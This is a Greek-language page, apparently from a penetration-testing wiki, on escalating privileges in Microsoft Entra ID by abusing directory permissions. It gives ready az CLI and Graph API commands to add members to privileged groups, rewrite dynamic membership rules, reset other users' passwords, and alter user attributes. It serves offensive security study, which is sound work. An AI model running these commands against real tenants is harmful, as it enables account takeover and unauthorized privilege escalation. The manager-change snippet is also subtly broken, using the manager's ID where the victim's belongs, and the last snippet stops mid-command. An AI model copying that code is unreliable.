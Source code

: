 Αυτή η άδεια επιτρέπει την προσθήκη μελών σε μια ομάδα. Ένας επιτιθέμενος θα μπορούσε να προσθέσει τον εαυτό του ή κακόβουλους λογαριασμούς σε προνομιούχες ομάδες, γεγονός που μπορεί να παραχωρήσει αυξημένη πρόσβαση.
```bash
az ad group member add --group <GroupName> --member-id <UserId>
```
### `microsoft.directory/groups/dynamicMembershipRule/update`

Αυτή η άδεια επιτρέπει την ενημέρωση του κανόνα μέλους σε μια δυναμική ομάδα. Ένας επιτιθέμενος θα μπορούσε να τροποποιήσει τους δυναμικούς κανόνες για να συμπεριληφθεί σε προνομιούχες ομάδες χωρίς ρητή προσθήκη.
```bash
groupId="<group-id>"
az rest --method PATCH \
--uri "https://graph.microsoft.com/v1.0/groups/$groupId" \
--headers "Content-Type=application/json" \
--body '{
"membershipRule": "(user.otherMails -any (_ -contains \"security\")) -and (user.userType -eq \"guest\")",
"membershipRuleProcessingState": "On"
}'
```
**Σημείωση**: Αυτή η άδεια εξαιρεί τις ομάδες ρόλων που είναι αναθέσιμες στο Entra ID.

### Δυναμικές Ομάδες Privesc

Είναι πιθανό οι χρήστες να αναβαθμίσουν τα δικαιώματά τους τροποποιώντας τις δικές τους ιδιότητες για να προστεθούν ως μέλη δυναμικών ομάδων. Για περισσότερες πληροφορίες, ελέγξτε:

{% content-ref url="dynamic-groups.md" %}
[dynamic-groups.md](dynamic-groups.md)
{% endcontent-ref %}

## Χρήστες

### `microsoft.directory/users/password/update`

Αυτή η άδεια επιτρέπει την επαναφορά κωδικού πρόσβασης σε μη διαχειριστές χρήστες, επιτρέποντας σε έναν πιθανό επιτιθέμενο να αναβαθμίσει τα δικαιώματά του σε άλλους χρήστες. Αυτή η άδεια δεν μπορεί να ανατεθεί σε προσαρμοσμένους ρόλους.
```bash
az ad user update --id <user-id> --password "kweoifuh.234"
```
### `microsoft.directory/users/basic/update`

Αυτή η άδεια επιτρέπει την τροποποίηση των ιδιοτήτων του χρήστη. Είναι συνηθισμένο να βρίσκουμε δυναμικές ομάδες που προσθέτουν χρήστες με βάση τις τιμές των ιδιοτήτων, επομένως, αυτή η άδεια θα μπορούσε να επιτρέψει σε έναν χρήστη να ορίσει την απαραίτητη τιμή ιδιότητας για να είναι μέλος μιας συγκεκριμένης δυναμικής ομάδας και να κλιμακώσει τα προνόμια.

{% code overflow="wrap" %}
```bash
#e.g. change manager of a user
victimUser="<userID>"
managerUser="<userID>"
az rest --method PUT \
--uri "https://graph.microsoft.com/v1.0/users/$managerUser/manager/\$ref" \
--headers "Content-Type=application/json" \
--body '{"@odata.id": "https://graph.microsoft.com/v1.0/users/$managerUser"}'

#e.g. change department of a user
az rest --method PATCH \
--uri "https://graph.microsoft.com/v1.0/users/$victimUser" \
--headers "Content-Type=application/json" \
```